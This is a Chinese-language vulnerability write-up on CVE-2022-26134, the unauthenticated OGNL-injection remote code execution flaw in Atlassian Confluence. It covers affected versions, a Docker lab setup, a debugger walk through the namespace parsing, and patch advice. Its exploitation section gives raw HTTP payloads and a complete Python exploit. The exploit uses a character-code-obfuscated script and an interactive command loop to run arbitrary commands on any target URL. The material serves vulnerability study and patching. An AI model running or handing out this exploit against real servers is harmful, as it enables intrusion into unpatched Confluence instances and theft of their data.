# Atlassian_Confluence_远程代码执行漏洞(CVE-2022-26134)

## 1 漏洞简介

Confluence是一个专业的企业知识管理与协同软件，也可以用于构建企业wiki。使用简单，可以用于企业团队共享信息、文档协作、集体讨论，信息推送。

2022年6月3日，知道创宇404实验室通过创宇安全智脑监测到Atlassian Confluence官方发布公告称Confluence Server 和Data Center存在未授权远程代码执行漏洞，该漏洞由于Confluence将URL翻译成namespace，导致攻击者可以在URL路径中构造OGNL表达式，造成表达式注入，从而远程代码执行。该漏洞被分配编号：CVE-2022-26134。

**OGNL**是一种功能强大的表达式语言，可以存取对象的任意属性，调用对象的方法，遍历整个对象的结构图，实现字段类型转化等功能。它使用相同的表达式去存取对象的属性。

## 2 影响范围

Confluence Server&Data Center ≥ 1.3.0
Atlassian Confluence Server and Data Center <7.4.17
Atlassian Confluence Server and Data Center <7.13.7
Atlassian Confluence Server and Data Center <7.14.3
Atlassian Confluence Server and Data Center <7.15.2
Atlassian Confluence Server and Data Center <7.16.4
Atlassian Confluence Server and Data Center <7.17.4
Atlassian Confluence Server and Data Center <7.18.1

## 3 环境搭建（建议使用内存和cpu核心较高的服务器避免卡死）

### 3.1 导入docker image

```bash
docker load -i polarvul_confluence_cve-2022-26134.tar
docker load -i postgres.tar
```

### 3.2 更改镜像名称

``` bash
docker tag cfbc60f8430d polarvul_confluence_cve-2022-26134:web
docker tag c6e4993aa6eb postgres:sql
```

### 3.3 启动容器

```bash
docker run  -d  -p 8090:8090  --name polarvul_confluence_cve-2022-26134 polarvul_confluence_cve-2022-26134:web

docker run --name postgres -e POSTGRES_PASSWORD=postgres -e POSTGRES_DB=confluence -p 5432:5432 -d postgres:sql
```

### 3.4 访问并申请试用



申请试用需要注册账号和绑定邮箱以及验证等操作。



获取密钥



下一步



连接数据库







填写相关内容





### 3.5 搭建成功



## 4 漏洞分析

docker-compose.yml 

为了方便调试，增加一个调试端口映射5050端口

```yaml
version: '2'
services:
  web:
    image: vulhub/confluence:7.13.6
    ports:
      - "8090:8090"
      - "5050:5050"
    depends_on:
      - db
  db:
    image: postgres:12.8-alpine
    environment: 
    - POSTGRES_PASSWORD=postgres
    - POSTGRES_DB=confluence
```

docker-compose up -d

环境起来后，进入容器内部

通过 ps aux 和 ps -le 可以确定源码位置和父进程

源码位置为：/opt/atlassian/confluence

父进程为： /usr/bin/tini -- /entrypoint.py

通过docker cp 从容器里面拷贝文件/目录到本地一个路径  

```bash
$docker cp Name:/container_path to_path  
$docker cp ID:/container_path to_path
```

然后通过 IDEA 引入并增加相关依赖



编辑调试环境，复制实参会用到



进入容器 /opt/atlassian/confluence/bin/目录下



由于当前环境没有安装 vi/vim 所以添加一下 apt 源 然后更新一下

```bash
sed -i s/archive.ubuntu.com/mirrors.aliyun.com/g /etc/apt/sources.list && sed -i s/security.ubuntu.com/mirrors.aliyun.com/g /etc/apt/sources.list && rm -rf /var/lib/apt/lists/* && rm -rf /var/lib/apt/lists/partial/* && apt-get clean && apt-get update && apt-get update -o Acquire::No-Cache=True

apt update && apt install -y vim
```

然后vim setenv.sh加入刚刚复制的实参



然后运行根目录下的 shutdown-wait.sh 文件将 confluence 关掉，然后重启一下即可

payload

```
GET /login.action/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/ HTTP/1.1
Host: 192.168.157.138:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: confluence.browse.space.cookie=space-blogposts; JSESSIONID=5F4E90D9120DBBD2BE3C15012420DD22
Upgrade-Insecure-Requests: 1
```

在源码路径：

下断点，抓包发送payload。

在 this.serviceAction 中通过 this.getNameSpace 和 this.getActionName 来处理请求中的路由和端点



this.getNameSpace 会将 servletPath 获取从0到最后一个 / 的路径



也就是获取我们 payload 的部分 

```
/${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("id").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}/
```



this.getActionName 会获取我们的端点部分，从 / 开始到最后一个 . 之间的值，也就是获取到 index



最终获取到的 action 也就是 index 

然后在 serviceAction 中首先会根据传入的 namespace 、action 、requestMap 等参数创建一个代理对象



payaload存放于 namespace 变量




然后调用代理对象的 execute 函数，在 execute 函数中主要是调用了 this.invocation.invoke(); 

也就是拦截器的 invoke 方法，并返回一个 code 



跟进查看 invoke 方法，发现在 invoke 方法中会迭代 interceptors



this.interceptors 是一个存放拦截器的列表，然后通过遍历 this.interceptors 来调用拦截器中的 intercept 方法

然后如果 this.proxy.getExecuteResult() == true 就会执行 this.executeResult() 



首先需要知道 this.proxy.getExecuteResult() 是从哪设置的，查看堆栈可以发现在最开始创建代理对象的时候默认设置的为 true 



在 executeResult 里面可以看到首先通过调用 this.createResult() 获取了 result 



跟进 this.createResult 函数，在函数中根据之前的 resultCode 从表中获取对应的结果



接着就会将 自身 作为参数传入到 execute 函数



在 execute 中会通过 TextParseUtil.translateVariables 函数来将 namespace 进行变量转化



在该函数中，造成了 OGNL 表达式的触发，并且传入的 namespace 可控 造成 RCE



## 5 漏洞利用

### 5.1 payload

```php
GET /%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/ HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```

### 5.2 exp

```python
import urllib.parse
import urllib3
import sys
import base64
import requests as req

urllib3.disable_warnings()


def poc(target: str) -> bool:
    ognl_expr = """${Class.forName("com.opensymphony.webwork.ServletActionContext").getMethod("getResponse",null).invoke(null,null).setHeader("X-Confluence",1)}"""
    payload = "/%s/" % (ognl_expr)
    try:
        resp = req.get(target + "/%s/" % (urllib.parse.quote(payload)), verify=False, allow_redirects=False)
        return True if "X-Confluence" in resp.headers.keys() else False
    except Exception as e:
        return False


def exp(target: str, cmd: str) -> str:
    ognl_expr = """${Class.forName("com.opensymphony.webwork.ServletActionContext").getMethod("getResponse",null).invoke(null,null).setHeader("X-Confluence",Class.forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("nashorn").eval("eval(String.fromCharCode(118,97,114,32,114,101,113,61,80,97,99,107,97,103,101,115,46,99,111,109,46,111,112,101,110,115,121,109,112,104,111,110,121,46,119,101,98,119,111,114,107,46,83,101,114,118,108,101,116,65,99,116,105,111,110,67,111,110,116,101,120,116,46,103,101,116,82,101,113,117,101,115,116,40,41,59,13,10,118,97,114,32,99,109,100,61,114,101,113,46,103,101,116,80,97,114,97,109,101,116,101,114,40,34,115,101,97,114,99,104,34,41,59,13,10,118,97,114,32,114,117,110,116,105,109,101,61,80,97,99,107,97,103,101,115,46,106,97,118,97,46,108,97,110,103,46,82,117,110,116,105,109,101,46,103,101,116,82,117,110,116,105,109,101,40,41,59,13,10,118,97,114,32,101,110,99,111,100,101,114,61,80,97,99,107,97,103,101,115,46,106,97,118,97,46,117,116,105,108,46,66,97,115,101,54,52,46,103,101,116,69,110,99,111,100,101,114,40,41,59,13,10,101,110,99,111,100,101,114,46,101,110,99,111,100,101,84,111,83,116,114,105,110,103,40,110,101,119,32,80,97,99,107,97,103,101,115,46,106,97,118,97,46,117,116,105,108,46,83,99,97,110,110,101,114,40,114,117,110,116,105,109,101,46,101,120,101,99,40,99,109,100,41,46,103,101,116,73,110,112,117,116,83,116,114,101,97,109,40,41,41,46,117,115,101,68,101,108,105,109,105,116,101,114,40,34,92,92,65,34,41,46,110,101,120,116,40,41,46,103,101,116,66,121,116,101,115,40,41,41))"))}"""
    """
    js code:
    var req=Packages.com.opensymphony.webwork.ServletActionContext.getRequest();
    var cmd=req.getParameter("search");
    var runtime=Packages.java.lang.Runtime.getRuntime();
    var encoder=Packages.java.util.Base64.getEncoder();
    encoder.encodeToString(new Packages.java.util.Scanner(runtime.exec(cmd).getInputStream()).useDelimiter("\\A").next().getBytes())
    """
    payload = "/%s/" % (ognl_expr)
    params = {
        'search': cmd
    }
    resp = req.get(target + "/%s/" % (urllib.parse.quote(payload)), params=params, verify=False,
                   allow_redirects=False)
    return base64.b64decode(resp.headers.get("X-Confluence", "")).decode()


if __name__ == '__main__':
    if len(sys.argv) != 2:
        print("Usage: python %s http://example.com/" % sys.argv[0])
        exit(0)
    target = sys.argv[1]
    print("Target: %s" % sys.argv[1])
    print("Checking target is vul...")
    if not poc(target):
        print("[%s] is not vul." % target)
        exit(0)
    else:
        print("[%s] is vul!!!" % target)
    while True:
        command = input("$ ")
        if command == 'q':
            print("quit.")
            exit(0)
        else:
            print("Execute command: %s" % command)
            print(exp(target, command))
```



## 6 漏洞修复

### 6.1 修复方法

1、升级最新版本：

官方已发布最新版本，建议用户升级Confluence到官方最新版本 7.4.17、7.13.7、7.14.3、7.15.2、7.16.4、7.17.4 和 7.18.1，以保证服务的安全性及稳定性。

下载地址：https://www.atlassian.com/software/confluence/download-archives

2、临时缓解方案：

如无法立即进行升级，可通过下载Atlassian官方jar包替换的方式作为临时缓解措施，Atlassian根据客户的Confluence版本提供了临时解决方法说明。

### 6.2 修复过程




